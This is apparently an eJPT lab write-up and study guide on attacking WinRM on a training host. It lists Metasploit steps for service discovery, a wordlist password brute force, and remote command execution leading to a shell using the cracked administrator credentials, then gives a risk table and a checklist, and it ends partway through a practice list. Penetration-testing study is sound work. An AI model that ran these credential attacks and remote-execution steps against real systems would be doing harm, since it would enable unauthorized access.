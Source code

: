 ### **Detailed Technical Report:**
```markdown
## Technical WinRM Assessment

### Commands Executed:
```bash
# Discovery phase
nmap --top-ports 7000 demo.ine.local

# Authentication enumeration
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS demo.ine.local
exploit

# Credential attack
use auxiliary/scanner/winrm/winrm_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
exploit

# Command execution verification
use auxiliary/scanner/winrm/winrm_cmd
set USERNAME administrator
set PASSWORD tinkerbell
set CMD whoami
exploit

# Full exploitation
use exploit/windows/winrm/winrm_script_exec
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
exploit
```

### Vulnerability Analysis:
| Component | Status | Risk Level | Details |
|-----------|---------|------------|---------|
| WinRM Service | ENABLED | HIGH | Accessible remotely |
| Authentication | WEAK | CRITICAL | Basic auth with weak passwords |
| Credentials | COMPROMISED | CRITICAL | administrator:tinkerbell |
| Access Controls | BYPASSED | CRITICAL | Full system access achieved |
```

---

## 🎓 Study Guide for eJPT Success

### **Essential Knowledge Checklist:**
- [ ] Understand what WinRM is and why it's important
- [ ] Know default WinRM ports (5985 HTTP, 5986 HTTPS)
- [ ] Can use Nmap to discover WinRM services
- [ ] Know how to check WinRM authentication methods
- [ ] Can perform password attacks against WinRM
- [ ] Understand how to execute commands via WinRM
- [ ] Know how to get meterpreter shells through WinRM
- [ ] Can navigate Windows systems after exploitation

### **Practice Scenarios:**
1. **Basic Discovery:** Find WinRM on unknown network range
```